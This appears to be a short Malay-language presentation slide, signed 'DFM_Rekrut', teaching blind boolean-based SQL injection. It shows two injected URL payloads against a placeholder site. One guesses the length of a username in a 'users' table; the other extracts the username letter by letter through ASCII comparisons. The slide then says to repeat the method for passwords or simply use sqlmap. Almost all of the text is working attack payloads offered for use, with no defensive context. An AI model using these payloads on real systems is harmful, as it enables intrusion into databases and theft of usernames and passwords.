

# Guessing column username daripada table
Macam biasa, kita kena guess string length untuk column username kita dahulu, jika return TRUE maka itulah string length untuk column username :

http://domain.com/php?id=1' AND (length((select username from users limit 0,1))) = 4 --+
*berdasarkan contoh di atas, column adalah ‘username’ table adalah ‘users’ dan ‘4’ itu adalah string length untuk username(column)

Next, kita guess username tersebut. Jika return TRUE maka itulah huruf pertama :

http://domain.com/php?id=1' AND (ascii(substr((select username from users limit 0,1) ,1,1))) = 68 --+
*berdasarkan contoh di atas, huruf pertama ‘1’ dalam username adalah ’68’ (ascii code)

Then, kita ulang sahaja method sama untuk dapatkan password dsb. Dan kalau nak lebih mudah, pakai sqlmap je.
DFM_Rekrut